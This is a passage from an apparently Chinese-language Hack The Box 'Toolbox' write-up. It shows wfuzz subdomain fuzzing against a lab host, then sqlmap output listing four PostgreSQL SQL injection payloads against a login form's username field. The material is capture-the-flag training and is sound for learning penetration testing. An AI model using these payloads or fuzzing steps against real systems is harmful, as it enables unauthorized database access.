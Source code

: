 ```


或者用wfuzz
```
┌──(root💀kali)-[~/htb/Toolbox]
└─# wfuzz -u https://10.10.10.236 -H "Host: FUZZ.megalogistic.com" -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-110000.txt --hh 22357
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: https://10.10.10.236/
Total requests: 114441

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                            
=====================================================================

000000024:   200        35 L     83 W       889 Ch      "admin" 
```


把```admin.megalogistic.com```也加到hosts文件后，打开浏览器显示一个登录入口，burp截断登录请求测试发现可能存在sql注入


用sqlmap跑了一遍显示靶机的数据库是PostgreSQL,可以使用以下4种注入技术

```
sqlmap identified the following injection point(s) with a total of 164 HTTP(s) requests:
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause
    Payload: username=-9328' OR 5360=5360-- rFOM&password=admin

    Type: error-based
    Title: PostgreSQL AND error-based - WHERE or HAVING clause
    Payload: username=admin#' AND 4213=CAST((CHR(113)||CHR(98)||CHR(122)||CHR(112)||CHR(113))||(SELECT (CASE WHEN (4213=4213) THEN 1 ELSE 0 END))::text||(CHR(113)||CHR(112)||CHR(98)||CHR(98)||CHR(113)) AS NUMERIC)-- uJOK&password=admin

    Type: stacked queries
    Title: PostgreSQL > 8.1 stacked queries (comment)
    Payload: username=admin#';SELECT PG_SLEEP(5)--&password=admin

    Type: time-based blind
    Title: PostgreSQL > 8.1 AND time-based blind
    Payload: username=admin#' AND 5607=(SELECT 5607 FROM PG_SLEEP(5))-- UduU&password=admin
---
[00:53:58] [INFO] the back-end DBMS is PostgreSQL
